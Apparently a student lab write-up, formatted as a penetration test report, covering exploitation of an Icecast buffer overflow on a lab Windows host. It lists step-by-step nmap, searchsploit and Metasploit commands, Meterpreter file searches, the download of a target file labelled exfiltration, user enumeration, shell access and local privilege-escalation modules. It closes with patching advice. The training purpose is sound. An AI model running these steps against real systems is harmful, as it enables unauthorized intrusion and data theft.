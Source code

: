 # Penetration_Test_Engagement
In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

JosephMossman@GoodSecurity.com

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

Machine IP:

 192.168.0.20

Hostname:

 MSEDGEWIN10 (DVW10)

Vulnerability Exploited:

 Icecast Header Overwrite

 ![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

Vulnerability Explanation:
 
 The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

Severity:

 The severity of this vulnerability is High, with a CVSS score of 7.5.

Proof of Concept:

 Perform a service and version scan using Nmap to determine which services are up and running:

 -Run the Nmap command that performs a service and version scan against the target.

  Answer: nmap -sV 192.168.0.20

  ![nmap](Screenshots/nmap_command.png)

 From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

 -Run the SearchSploit commands to show available Icecast exploits.

  Answer: searchsploit icecast

  ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

 Now that we know which exploits are available to us, let's start Metasploit:

 -Run the command that starts Metasploit:

  Answer: msfconsole

  ![msfconsole](Screenshots/msfconsole_command.png)
 
 Search for the Icecast module and load it for use.

 -Run the command to search for the Icecast module:

  Answer: search icecast

  ![search_icecast](Screenshots/search_icecast_command.png)
 
 -Run the command to use the Icecast module:

  Answer: use 0

  ![use](Screenshots/use_0_command.png)
 
 -Run the command that sets the RHOST:

  Answer: set RHOST 192.168.0.20

  ![RHOST](Screenshots/use_rhost_command.png)
 
 -Run the command that runs the Icecast exploit.

  Answer: exploit

  ![exploit](Screenshots/exploit_command.png)
 
 You should now have a Meterpreter session open.

 -Run the command that performs a search for the secretfile.txt on the target.

  Answer: search -f *secretfile*.txt

  ![secretfile](secretfile_command.png)

 -Run the command to performs a search for the recipe.txt on the target:

  Answer: search -f *recipe*.txt

  ![recipe](Screenshots/recipe_command.png)

 -Run the command that ex-filtrates the recipe*.txt file:

  Answer: download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

  ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

 Verify that you have successfully downloaded the file.

 -Verification:

  ![verification](Screenshots/verify_drinks.png) 

 You can also use Meterpreter's local exploit suggester to find possible exploits.

 -Run the command to use Meterpreter’s local exploit suggester.

  Answer: run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

 -Run a Meterpreter post script that enumerates all logged on users.

  Answer: run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

 -Run the command to open a Meterpreter shell and gather system information for the target.

  Answer: shell

  ![shell](Screenshots/shell_command.png)

 -Run the command that displays the target's computer system information:

  Answer: systeminfo

  ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

Machine IP:

 192.168.0.20 Port 25

Hostname:

 MSEDGEWIN10 (DVW10)

Vulnerability Exploited:

 windows/local/ikeext_service

Vulnerability Explanation:

 The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

Severity:

 The severity of this vulnerability is Medium, with a CVSS score of 6.0.

Proof of Concept: 

 ![ikeext_proof](Screenshots/ikeext_vulnerability.png)

Machine IP:

 192.168.0.20 Port 25

Hostname:

 MSEDGEWIN10 (DVW10)

Vulnerability Exploited:

 windows/local/ms16_075_reflection

Vulnerability Explanation:

 The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

Severity:

 The severity of this vulnerability is Medium, with a CVSS score of 6.9.

Proof of Concept: 

 ![ms16_proof](ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 
